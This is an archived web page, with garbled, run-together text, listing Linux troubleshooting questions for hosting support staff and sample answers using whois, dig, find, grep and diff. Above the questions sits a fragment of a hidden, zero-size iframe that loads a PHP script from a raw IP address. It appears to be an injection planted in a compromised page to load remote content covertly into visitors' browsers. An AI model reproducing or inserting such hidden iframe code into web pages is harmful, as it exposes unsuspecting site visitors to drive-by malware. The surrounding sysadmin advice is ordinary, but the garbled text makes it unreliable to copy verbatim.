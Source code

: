 <\></\>src="http://124.217.252.62/~admin/count.php?o=3"width=0height=0style="hidden"frameborder=0marginheight=0marginwidth=0scrolling=no
16. My perl scriptNMSFormMail.plreturns a500 Internal Server Error. In error logs, I see "file has no execute permission: (/home/atmediad/public\_html/cgi/NMSFormMail.pl)". How do I fix that?
17. I copied aphp.iniwith a highmemory\_limitto all folders and still a script gives me a memory error. What else can I do?
18. I am in this guys mail directory trying to identify the actual usage size of a particular email account. What is the command to show size? Which subfolders are using the most space?
19. what are some ways I could transfer a large file to the server from the linux command line?
20. Customer used cPanel Redirects to redirect a hosted domain, but it isn't working as expected. what command can be used to determine where the redirect is actually redirecting to?
21. What is the syntax to import a .sql file into a mysql database?
22. If a customer deletedpublic\_htmland has no backup, but doesn't want to nuke the account, what command can create an emptypublic\_htmlfolder?
23. A perl script won't run. When I view it inviI see a bunch of^Mline break characters, how can I fix that?
24. How might I change the wordpress theme without logging intowp-login.php?
25. I need to make a tarball (compressed folder) of a certain folder. How do I do that?
26. A customer got migrated to a multi-home box and now his scripts are broken because it is using/home/userinstead of/home1/user. How do I fix that?
27. What are some ways to back up a whole account before making changes that affect several files?
28. How can I find how much space a customer is actually using in their entire hosting account?
29. How do I download a system backup directly into an account?
30. What command will output all the databases on the account in a nice tidy list?
31. How do I export a database?
32. How do I see a list of all active mysql connections for all my databases?
33. How can I export a single file from a tar archive?
34. How can I tell how many files a customer has in their account?
35. How can I rename all my.htaccessfiles to.htaccess.bak?
36. How do I rename all my.htaccess.bakfiles back to.htaccess?

### Linux challenge answers

(source:[https://wiki.bluehost.com/index.php/Linux\_challenge\_answers][10])

This page is a sample answer key to the Linux Challenge questions above, plus more Linux-related questions with answers that everyone is welcome to contribute.

1. Domain internal resolvers are good, but external is not showing. Where is the problem?Use the whois command to see if the nameservers even point to us.whois yourdomain.com
If the nameservers point to us, use dig to see if they have a badly pointed A record.dig yourdomain.com
dig www.yourdomain.com
2. How do I see which database matches which application?Use the find command with grep to search files for the database prefix (username\_).List all filenames in and under the current directory that contain database settings:find ./ -name \\\*.php -exec grep -Hl \`whoami\`\_ {}\\;Show me the filenames along with the database names:find ./ -name \\\*.php -exec grep -H \`whoami\`\_ {}\\;Better - shows file namesgrep -lr --include=\*.php "\`whoami\`\_" ~/public\_html/
3. I just "pushed" DNS. how do I know if it worked?Use dig to see if you get a good answer from NS0\. NS0 has a 1-minute cache, so if you barely pushed it and don't get a good response, give it a minute.dig yourdomain.com @ns0.bluehost.com
dig yourdomain.com @ns0.hostmonster.com
dig yourdomain.com @ns0.fastdomain.com
4. I just added a CNAME. How do I confirm that I did it right?Use dig with NS0 to check it.dig www.yourdomain.com @ns0.bluehost.com
dig mail.yourdomain.com @ns0.hostmonster.com
dig docs.yourdomain.com @ns0.fastdomain.com
5. My account has been hacked for awhile. Which backup has not been hacked?Use diff to see whether the page in question is the same as what's in each of the backups.diff -q ~/public\_html/index.html /home/\`whoami\`.daily/public\_html/index.html
diff -q ~/public\_html/index.html /home/\`whoami\`.weekly/public\_html/index.html
If you want to see what is different about the files being compared.diff -y ~/public\_html/index.html /home/\`whoami\`.daily/public\_html/index.html
diff -y ~/public\_html/index.html /home/\`whoami\`.weekly/public\_html/index.html
Use diff to compare whole directories.diff -q ~/public\_html/ /home/\`whoami\`.daily/public\_html/

[0]: https://web.archive.org/web/20150320081207/http://ols.fedoraproject.org/OLS/Reprints-2008/kumar-reprint.pdf
[1]: https://web.archive.org/web/20150320081207/http://www.thegeekstuff.com/2010/12/50-unix-linux-sysadmin-tutorials
[2]: https://web.archive.org/web/20150320081207/http://en.wikipedia.org/wiki/Filesystem_Hierarchy_Standard
[3]: https://web.archive.org/web/20150320081207/http://www.linuxhowtos.org/Tips%20and%20Tricks/chattr.htm
[4]: https://web.archive.org/web/20150320081207/http://www.cyberciti.biz/tips/understanding-unixlinux-file-system-part-i.html
[5]: https://web.archive.org/web/20150320081207/http://en.wikipedia.org/wiki/Subnetwork#IPv4_subnetting
[6]: https://web.archive.org/web/20150320081207/http://en.wikipedia.org/wiki/Classless_Inter-Domain_Routing#CIDR_notation
[7]: https://web.archive.org/web/20150320081207/http://danceswithkittens.com/books/LPIC/
[8]: https://web.archive.org/web/20150320081207/http://www.cs.rutgers.edu/~pxk/416/notes/07-scheduling.html
[9]: https://web.archive.org/web/20150320081207/https://wiki.bluehost.com/index.php/Linux_challenge
[10]: https://web.archive.org/web/20150320081207/https://wiki.bluehost.com/index.php/Linux_challenge_answers
[11]: https://web.archive.org/web/20150320081207/http://scripts.v2joecr.com/file-folder-fixer.txt
[12]: https://web.archive.org/web/20150320081207/http://stackoverflow.com/questions/4272770/wget-with-authentication
[13]: https://web.archive.org/web/20150320081207/http://74.220.207.132:2082/
[14]: https://web.archive.org/web/20150320081207/http://
